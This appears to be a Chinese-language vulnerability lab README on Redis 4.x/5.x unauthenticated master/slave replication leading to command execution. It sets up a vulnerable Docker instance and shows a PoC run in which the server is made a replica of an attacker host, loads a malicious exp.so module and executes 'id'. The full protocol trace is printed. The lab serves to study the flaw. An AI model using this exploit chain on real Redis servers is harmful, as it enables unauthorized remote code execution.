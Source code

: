 # Redis 4.x/5.x 主从复制导致的命令执行

Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。

Redis未授权访问在4.x/5.0.5以前版本下，我们可以使用master/slave模式加载远程模块，通过动态链接库的方式执行任意命令。

参考链接：

- <https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf>

## 环境搭建

执行如下命令启动redis 4.0.14：

```
docker compose up -d
```

环境启动后，通过`redis-cli -h your-ip`即可进行连接，可见存在未授权访问漏洞。

## 漏洞复现

使用[这个POC](https://github.com/GhostWolfLab/KALI-redis-master_slave)即可直接执行命令：

```bash
./redis-master.py -r 192.168.0.189 -p 6379 -L 192.168.0.189 -P 8888 -f RedisModulesSDK/exp.so -c "id"
>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$13\r\n192.168.0.189\r\n$4\r\n8888\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
>> receive data: b'+OK\r\n'
>> receive data: b'PING\r\n'
>> receive data: b'REPLCONF listening-port 6379\r\n'
>> receive data: b'REPLCONF capa eof capa psync2\r\n'
>> receive data: b'PSYNC fa03249fe5ea44ee1c53aaa34d9b3a97accc8a14 1\r\n'
>> send data: b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$8\r\n./exp.so\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$8\r\ndump.rdb\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*2\r\n$11\r\nsystem.exec\r\n$2\r\nid\r\n'
>> receive data: b'$49\r\neuid=999(redis) gid=999(redis) groups=999(redis)\n\r\n'
euid=999(redis) gid=999(redis) groups=999(redis)

>> send data: b'*3\r\n$6\r\nMODULE\r\n$6\r\nUNLOAD\r\n$6\r\nsystem\r\n'
>> receive data: b'+OK\r\n'
```
